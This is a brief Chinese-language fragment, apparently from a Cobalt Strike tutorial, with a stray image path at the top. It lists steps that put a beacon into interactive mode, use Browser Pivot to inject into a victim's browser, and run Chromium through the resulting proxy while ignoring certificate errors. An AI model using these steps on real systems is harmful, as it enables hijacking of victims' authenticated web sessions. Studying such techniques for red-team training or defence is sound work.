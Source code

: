 	beacon 设为交互模式
	beacon> sleep 0
	[Beacon] → Explore → Browser Pivot
	选择打对勾的注入，会返回一个proxy，服务器IP+端口
	>chromium --no-sandbox --ignore-certificate-errors --proxy-server=服务器IP:端口
	访问网址